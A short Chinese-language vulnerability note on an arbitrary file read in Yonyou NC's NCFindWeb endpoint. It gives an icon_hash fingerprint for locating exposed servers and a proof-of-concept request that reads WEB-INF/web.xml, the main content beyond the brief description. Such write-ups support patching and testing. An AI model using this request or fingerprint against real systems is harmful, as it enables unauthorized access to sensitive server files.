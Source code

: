 # 

# 用友 NC NCFindWeb 任意文件读取漏洞

## 漏洞描述

用友NC存在任意文件读取漏洞，攻击者通过漏洞可读取服务器敏感文件

## 漏洞影响

```
用友NC
```

## 网络测绘

```
icon_hash="1085941792"
```

## 漏洞复现

登陆页面

![img](./images/1628351304159-f00b4a4f-a104-40f4-a8bf-1ea00cf72c98.png)

验证POC **/NCFindWeb?service=IPreAlertConfigService&filename=WEB-INF/web.xml**

![img](./images/1628351371286-e2898425-5e54-438a-b5eb-4f20eed3636b.png)


